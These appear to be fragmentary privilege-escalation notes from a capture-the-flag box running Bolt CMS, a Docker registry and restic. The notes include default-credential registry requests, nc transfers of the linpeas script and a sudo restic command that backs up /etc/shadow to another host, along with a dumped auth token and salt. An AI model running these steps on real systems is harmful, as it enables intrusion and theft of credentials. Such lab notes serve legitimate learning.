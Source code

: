 * `Feb10     1754     root registry serve /etc/docker/registry/config.yml`

* Seems interesting `Feb10     1726     root /usr/bin/docker-proxy -proto tcp -host-ip 127.0.0.1 -host-port 5000 -container-ip 172.18.0.2 -container-port 5000`  

```
GET /v2/_catalog HTTP/1.1
Host: 172.18.0.2:5000
Authorization: Basic YWRtaW46YWRtaW4=
```  
* There's no docker group and I can't create one
* I can't see if I have sudo privilege because I don't know what's my user's password.

* The docker registry stuff are stored in this path `/srv/docker-registry/data/docker/registry/v2`.

* Possiblities  
  * the backup that I can execute when requesting the "backup.php" page.
  * Docker? I don't have permission to do anything ( I'm excluding it for now) or maybe I can try and do something about the permission denied.
  * there's something weird in one of the database files ( it has a column called "stack" and inside of it, there's a value of ["files://shell.php"]) which looks interesting but I don't know what the hell it means.  
  * The `runc` command but there's nothing from its side either.
  * There's also the `registry serve /etc/docker/registry/config.yml` command that neither the command exists nor the file in the path exists.  

nc -l -p 7777 > linpeas

nc -w 3 10.10.10.159 7777 < linpeas  

* This could be something `/lib/systemd/system/uuidd.socket is calling this writable listener: /run/uuidd/request`.  
* Use SUID3NUM it's nice. Relieves the burden of searching through the SUID binaries and checking if it's normal that they have the sticky bit or not. ( And it's legit in OSCP)  

* `./rest-server --path /tmp/restic --no-auth --debug`

restic restore -r "/tmp/restic/new" latest --target .
restic backup -r rest:http://127.0.0.1:8000/new ~/html/backup.php
* SOMETHING!!!  


sudo restic backup -r rest:http://172.18.0.1/v2/bolt-image /etc/shadow

```console
CREATE TABLE bolt_authtoken (
  id INTEGER PRIMARY KEY AUTOINCREMENT NOT NULL, 
  user_id INTEGER DEFAULT NULL, 
  username VARCHAR(32) DEFAULT NULL, 
  token VARCHAR(128) NOT NULL, 
  salt VARCHAR(128) NOT NULL, 
  lastseen DATETIME DEFAULT NULL, 
  ip VARCHAR(45) DEFAULT NULL, 
  useragent VARCHAR(128) DEFAULT NULL, 
  validity DATETIME DEFAULT NULL)
1, 
1, 
None, 
a52cd7688a18a6b0c787aa1539c3c734ae551ae5497b3f8bc8bda953cb65cba2, 
f8e7da1a2b9ea7109e0bdeedb6e85135, 
2019-10-08 21:25:07, 
192.168.1.52, 
Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36, 
2019-10-22 21:25:07
```  
